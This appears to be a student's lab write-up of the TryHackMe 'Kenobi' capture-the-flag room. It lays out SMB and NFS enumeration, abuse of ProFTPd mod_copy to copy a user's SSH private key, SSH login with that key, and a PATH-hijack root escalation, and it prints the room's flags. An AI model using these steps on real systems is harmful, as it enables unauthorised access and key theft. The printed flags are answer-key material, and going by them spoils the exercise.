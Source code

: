 ```yaml
---
layout: post
title: Week 11 Lab
published: true
---
```

**Try Hack Me: Kenobi**
*I need all the hope I can get*
Task 1: 

I deployed the machine and used nmap to scan and see how many ports were open, there were 7.


## Task 2:

I used nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.29.248 and found 3 shares total. Guest, anonymous and print. 

I used smbclient //10.10.29.248/anonymous and just hit backspace and enter for the password which allowed me access.

After gaining access, I performed LS to list the files, and I saw log.txt.

I then used smbget -R smb://10.10.29.248/anonymous and hit enter for password. I then cat the log.txt. I saw that the port FTP was running on was 21.

Using "nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.29.248" it showed me a mount called /var.

## Task 3:
I'm going to use NetCat to connect to the machine to the FTP port using "nc 10.10.29.248 21 which showed the version as 1.3.5

To find the exploits for a partucular software version, I used searchsploit proftpd which showed 3 exploits.

The exploit we found from ProFtpd's mod_copy modue is "searchsploit -p 36742"

I combined nfs /var directory with ProFtpd exploit and copied the id_rsa file to /var 

Then I used nc 10.10.29.248 21 and site help to list commands and copied the file using "site CPFR /home/kenobi/ .ssh/id_rsa" "site CPTO /var/tmp/id_rsa" and to mount it I used 
"mkdir mnt 
mount 10.10.29.248:/var mnt
cd mnt
ls"

"cd tmp 
ls"

"cp id_rsa <destination path>
chmod 600 id_rsa
ls -la"

Then logged in with "ssh -i id_rsa kenobi@10.10.29.248"

and found the flag after ls cat user.txt in /home/kenobi/user.txt

Flag: d0b0f3f53b6caa532a83915e19224899

## Task 4:

using find / -perm -u=s -type f 2>/dev/null, the file that looks out of the ordinary is usr/bin/menu and there are 3 options after running binary.

After running "strings /usr/bin/menu" I saw I could manupilate the path and gain access to the root.
Using "cd /tmp
echo   /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH" and menu then id gains access to the root privledge. The root flag is in root/root.txt so I cat the file and the root flag is: 177b3cd8562289f37382721c28381f02
